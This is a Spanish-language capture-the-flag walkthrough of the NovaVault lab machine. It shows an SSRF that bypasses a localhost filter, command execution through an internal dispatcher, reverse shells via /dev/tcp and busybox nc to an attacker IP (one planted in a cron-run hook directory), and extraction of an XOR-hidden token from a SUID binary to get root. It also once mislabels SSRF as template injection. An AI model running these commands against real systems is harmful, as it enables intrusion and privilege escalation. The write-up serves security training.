





## Table of contents

## Enumeración

La máquina NovaVault tiene la ip **10.0.2.86**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open -sCV --min-rate 5000 -n -Pn 10.0.2.86

Nmap scan report for 10.0.2.86
Host is up (0.00028s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.2p1 Ubuntu 2ubuntu3.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.28.3 (Ubuntu)
|_http-server-header: nginx/1.28.3 (Ubuntu)
|_http-title: NovaVault | Enterprise Cryptographic Infrastructure & Key Mana...
```
 
### Puerto 80 (Web)

Accedemos con el navegador a la ip de la máquina, al hacer click en el botón azul de "**API Gateway**" nos redirge a `http://api.novavault.thl/api/v1/health`.



Agregamos los dominios, `novavault.thl` y `api.novavault.thl` a nuestro **/etc/hosts** para poder acceder a ellos. 

```bash
echo '10.0.2.86 novavault.thl api.novavault.thl' | sudo tee -a /etc/hosts
```

Revisando la web nos encontramos con dos endpoints dentro de la api, **/health** y **/vault/inspect**.



Enumeramos los endpoints de **/api/v1/** empleando **ffuf**.

```bash
ffuf -c -u  http://api.novavault.thl/api/v1/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

 :: Method           : GET
 :: URL              : http://api.novavault.thl/api/v1/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

docs                    [Status: 200, Size: 511, Words: 22, Lines: 2, Duration: 115ms]
health                  [Status: 200, Size: 142, Words: 6, Lines: 2, Duration: 104ms]
```

Encontramos un endpoint **docs** que contiene información sobre la api.


```bash
 curl -s "http://api.novavault.thl/api/v1/docs" | jq

{
  "api_version": "1.0",
  "endpoints": [
    {
      "description": "API healthcheck and enclave status",
      "method": "GET",
      "path": "/api/v1/health"
    },
    {
      "description": "Fetches and inspects remote certificates or keys",
      "method": "POST",
      "parameters": {
        "format": "string (optional: x509, pem)",
        "url": "string (HTTP/HTTPS URL)"
      },
      "path": "/api/v1/vault/inspect"
    },
    {
      "description": "Dispatches synchronization payloads to cluster member endpoints",
      "method": "POST",
      "parameters": {
        "payload": "object",
        "target_url": "string"
      },
      "path": "/api/v1/vault/sync"
    }
  ]
}
```
En la documentación tenemos:
- **/health** : Revisa el estado de la API.
- **/vault/inspect** : Inspecciona una url. 
- **/vault/sync** :  Permite enviar payloads a una url.

Vamos a comprobar si el parámetro **url** del endpoint **/api/v1/vault/inspect** es vulnerable a un **Server Side Template Injection** (**SSRF**) y en ese caso, enumerar servicios internos de la máquina.

```bash
curl -s "http://api.novavault.thl/api/v1/vault/inspect" -X POST \
-H "Content-type: application/json" \
-d '{"url": "http://127.0.0.1", "format": "x509"}' | jq

{
  "error": "Security Boundary Violation: Destination host '127.0.0.1' is restricted by enterprise zero-trust egress filter.",
  "status": "blocked"
}
```

## Explotación
### Server Side Request Forgery (SSRF)

Vamos a saltarnos el bloqueo al localhost enviando como url **http://127.0.1**

```bash
curl -s "http://api.novavault.thl/api/v1/vault/inspect" -X POST \
-H "Content-type: application/json" \
-d '{"url": "http://127.0.1", "format": "x509"}' | jq

{
  "body": "<!DOCTYPE html>\n<html lang=\"en\">\n<head>\n   
   <meta charset=\"UTF-8\">\n    <meta name=\"viewport\" 
   content=\"width=device-width, initial-scale=1.0\">\n    
   <title>NovaVault | Enterprise Cryptographic Infrastructure & Key Management</title>
  ....
  "content_type": "text/html",
  "source": "http://127.0.1",
  "status": "success"
}
```
Conseguimos ver el contenido del servicio interno del puerto 80, que es la web que está expuesta. Vamos a enumerar los puertos internos abiertos de la máquina aprovechando este **SSRF**.

Para ello, generamos un listado de puertos.

```bash
seq 80 9999 > ports.txt
```

Y empleamos **ffuf** para obtener aquellos abiertos de forma interna.

```bash
ffuf -c -u  http://api.novavault.thl/api/v1/vault/inspect -X POST -w ports.txt \ 
-H "Content-type: application/json" -d '{"url": "http://127.0.1:FUZZ", "format": "x509"}'

 :: Method           : POST
 :: URL              : http://api.novavault.thl/api/v1/vault/inspect
 :: Wordlist         : FUZZ: /home/kali/Desktop/machines/THL/NovaVault/ports.txt
 :: Header           : Content-Type: application/json
 :: Data             : {"url": "http://127.0.1:FUZZ", "format": "x509"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

80                      [Status: 200, Size: 2279, Words: 460, Lines: 2, Duration: 86ms]
5000                    [Status: 200, Size: 316, Words: 28, Lines: 2, Duration: 238ms]
8443                    [Status: 200, Size: 344, Words: 10, Lines: 2, Duration: 250ms]
```

Encontramos tres puertos:
- 80 : es el puerto de la web.
- 5000 : es el puerto de la api.
- 8443 : se trata de otro servicio diferente.

Usamos el **SSRF** para ver el contenido del puerto interno 8443.

```bash
curl -s "http://api.novavault.thl/api/v1/vault/inspect" -X POST \
-H "Content-type: application/json" \
-d '{"url": "http://127.0.1:8443", "format": "x509"}' | jq

{
  "body": "{\"endpoints\":[\"/cluster/status\",\"/cluster/task/dispatch\"],\"message\":\"Authorized loopback diagnostic and task dispatcher active.\",\"node\":\"CLUSTER-NODE-01\",\"service\":\"NovaVault Cluster Node Manager\",\"version\":\"1.9.4-internal\"}\n",
  "content_type": "application/json",
  "source": "http://127.0.1:8443",
  "status": "success"
}
```

Este servicio es otra api que dispone de dos endpoints, **/cluster/status** y **/cluster/task/dispatch**.

Revisando el endpoint interno **/cluster/task/dispatch** vemos que no admite la petición que realiza **/vault/inspect**, ya que seguramente solo permita las peticiones por el método **POST**.

```bash
curl -s "http://api.novavault.thl/api/v1/vault/inspect" -X POST \
-H "Content-type: application/json" \
-d '{"url": "http://127.0.1:8443/cluster/task/dispatch", "format": "x509"}' | jq

{
  "body": "<!doctype html>\n<html lang=en>\n<title>405 Method Not Allowed</title>
  \n<h1>Method Not Allowed</h1>\n<p>The method is not allowed for the requested URL.</p>\n",
  "content_type": "text/html; charset=utf-8",
  "source": "http://127.0.1:8443/cluster/task/dispatch",
  "status": "success"
}
```

### SSRF to Remote Code Execution (RCE)

Este endpoint no nos sirve pero tenemos el otro, **/vault/sync**. Si realizamos la misma petición pero a este endpoint y usando sus propios parámetros, ya que la url aqui es target_url y necesita un payload, vemos que nos indica que falta un commando.

```bash
curl -s "http://api.novavault.thl/api/v1/vault/sync" -X POST \
-H "Content-type: application/json" \
-d '{"target_url": "http://127.0.1:8443/cluster/task/dispatch", "payload": {}}' | jq

{
  "response": {
    "error": "No command or target specified in task payload"
  },
  "status": "dispatched",
  "status_code": 400,
  "target": "http://127.0.1:8443/cluster/task/dispatch"
}
```

Por lo tanto, este endpoint si realiza internamente la petición por **POST**, así que enviamos el payload `{"command" : "id"}` y conseguimos un **Remote Code Execution** (**RCE**).

```bash
 curl -s "http://api.novavault.thl/api/v1/vault/sync" -X POST \
-H "Content-type: application/json" \
-d '{"target_url": "http://127.0.1:8443/cluster/task/dispatch", "payload": {"command": "id"}}' | jq

{
  "response": {
    "node": "CLUSTER-NODE-01",
    "output": "uid=33(www-data) gid=33(www-data) groups=33(www-data),1001(crypto-operators)",
    "status": "success",
    "task_type": "diagnostic"
  },
  "status": "dispatched",
  "status_code": 200,
  "target": "http://127.0.1:8443/cluster/task/dispatch"
}
```

Nos ponemos en escucha con **Netcat**.

```bash
nc -nlvp 4444
```

Y nos mandamos una reverse shell.

```bash
curl -s "http://api.novavault.thl/api/v1/vault/sync" -X POST \
-H "Content-type: application/json" \
-d '{"target_url": "http://127.0.1:8443/cluster/task/dispatch", "payload": {"command": "bash -c \"bash -i >& /dev/tcp/10.0.2.61/4444 0>&1\""}}'
```

Entramos al servidor como el usuario **www-data**

## Movimiento Lateral
### Elena

Vamos a utilizar **pspy64** para ver las tareas que se ejecutan periódicamente en el servidor.

- https://github.com/dominicbreuker/pspy

Lo pasamos a la máquina y lo ejecutamos.


```bash
www-data@novavault:~$ /tmp/pspy64 
...
20XXs/XX/XX XX:XX:00 CMD: UID=1001  PID=786    | /usr/bin/python3 /opt/novavault/scripts/hsm_sync.py 
...
```

El usuario con el **uid** 1001, **elena**, está ejecutando de forma periódica un script de python situado en el directorio **opt**.

```bash
www-data@novavault:$ cat /opt/novavault/scriptshsm_sync.py 
#!/usr/bin/env python3
import os
import glob
import subprocess
import time

INBOX = "/opt/novavault/csr_inbox"
ARCHIVE = "/opt/novavault/processed"
LOGFILE = "/var/log/novavault/hsm_sync.log"
...

def process_inbox():
    os.makedirs(INBOX, exist_ok=True)
    os.makedirs(ARCHIVE, exist_ok=True)

    # 1. Process custom hook scripts (*.sh)
    hooks = sorted(glob.glob(os.path.join(INBOX, "*.sh")))
    for hpath in hooks:
        try:
            if not os.path.exists(hpath) or os.path.getsize(hpath) == 0:
                continue
            
            # Ensure file writing has settled
            mtime_diff = time.time() - os.path.getmtime(hpath)
            if mtime_diff < 1.0:
                continue

            fname = os.path.basename(hpath)
            log(f"Executing pre-validation hook: {fname}")
...
```

La parte que nos interesa se encuentra al principio del script. Se define una variable `INBOX` referente a `/opt/novavault/csr_inbox` y posteriormente, todos los archivos con extensión **.sh** de ese directorio son ejecutados.

Como disponemos de permisos de escritura en ese directorio, vamos a crear un script de bash que nos envíe una reverse shell a nuestro equipo y así convertirnos en el usuario **elena**.


```bash
www-data@novavault:~$ echo 'busybox nc 10.0.2.61 4444 -e /bin/bash' > /opt/novavault/csr_inbox/rev.sh
www-data@novavault:~$ chmod +x /opt/novavault/csr_inbox/rev.sh 
```

Nos volvemos a poner en escucha con **Netcat** y recibimos la shell como **elena**.

```bash
elena@novavault:~$ id
uid=1001(elena) gid=1001(crypto-operators) groups=1001(crypto-operators)
elena@novavault:~$ ls -la
total 28
drwxr-x--- 3 elena crypto-operators 4096 Oct 10 15:30 .
drwxr-xr-x 4 root  root             4096 Sep  6 10:56 ..
lrwxrwxrwx 1 elena root                9 Sep  6 10:56 .bash_history -> /dev/null
-rw-r--r-- 1 elena crypto-operators  220 Feb 13  2026 .bash_logout
-rw-r--r-- 1 elena crypto-operators 3771 Feb 13  2026 .bashrc
drwx------ 3 elena crypto-operators 4096 Oct 10 15:30 .gnupg
lrwxrwxrwx 1 elena root                9 Sep  6 10:56 .lesshst -> /dev/null
-rw-r--r-- 1 elena crypto-operators  807 Feb 13  2026 .profile
-rw-r----- 1 elena crypto-operators   38 Sep  6 10:56 user.txt
```

## Escalada de Privilegios
### Root

Revisando los archivos con permisos **SUID** encontramos un archivo que llama la atención.
```bash
elena@novavault:~$ find / -perm -4000 2>/dev/null
...
/usr/local/bin/vault-guard
...
```

Se trata de un ejecutable de Linux. Lo pasamos a nuestra máquina para aplicar reversering con **ghidra** y poder revisar su código.

En la función **main**, observamos que el parámetro **recover** invoca a la función **verify_recovery_token()**, encargada de validar el token. Si la validación es exitosa, se ejecuta la función **drop_root_shell()**, que proporciona una bash con privilegios de root.





Al analizar la función **verify_recovery_token()**, observamos 24 valores almacenados en hexadecimal que se utilizan para validar el token. La función aplica una operación **XOR** con `0x5A` a cada byte del string recibido y compara el resultado con el valor almacenado. Si todos los bytes coinciden se ejecuta la función **drop_root_shell()**.




Por lo tanto, empleamos un script de Python para que nos realice esta operación sobre los valores en hexadecimal y así obtener el token.

```python
data = [
    0x14, 0x0c, 0x77, 0x08, 0x1f, 0x19,
    0x15, 0x0c, 0x1f, 0x08, 0x03, 0x77,
    0x63, 0x3c, 0x62, 0x68, 0x3b, 0x6b,
    0x39, 0x6a, 0x3e, 0x6e, 0x3f, 0x6d
]

token = ''.join(chr(b ^ 0x5a) for b in data)
print(token)
```

```bash
python3 create_token.py
NV-RECOVERY-9f82a1c0d4e7
```

Una vez obtenido, ejecutamos el binario y le pasamos el token para conseguir la bash con privilegios de root.

```bash
elena@novavault:~$ /usr/local/bin/vault-guard --recover NV-RECOVERY-9f82a1c0d4e7
==================================================
  NovaVault HSM Security Supervisor v3.2.0-FIPS   
==================================================
[+] Recovery token verified successfully!
[+] SUPERUSER PERMISSIONS GRANTED.
[+] Entering NovaVault Diagnostic Console...
root@novavault:/home/elena# whoami
root
root@novavault:/home/elena# ls -la /root
total 36
drwx------  4 root root 4096 Sep  6 10:56 .
drwxr-xr-x 20 root root 4096 Sep  6 10:35 ..
lrwxrwxrwx  1 root root    9 Sep  6 10:56 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr 20 08:46 .bashrc
lrwxrwxrwx  1 root root    9 Sep  6 10:56 .lesshst -> /dev/null
-rw-r--r--  1 root root  132 Apr 20 08:46 .profile
drwx------  2 root root 4096 Sep  6 10:43 .ssh
-rw-------  1 root root   38 Sep  6 10:56 root.txt
drwx------  3 root root 4096 Sep  6 10:43 snap
-r-xr-xr-x  1 root root 7037 Sep  6 10:43 vboxpostinstall.sh
```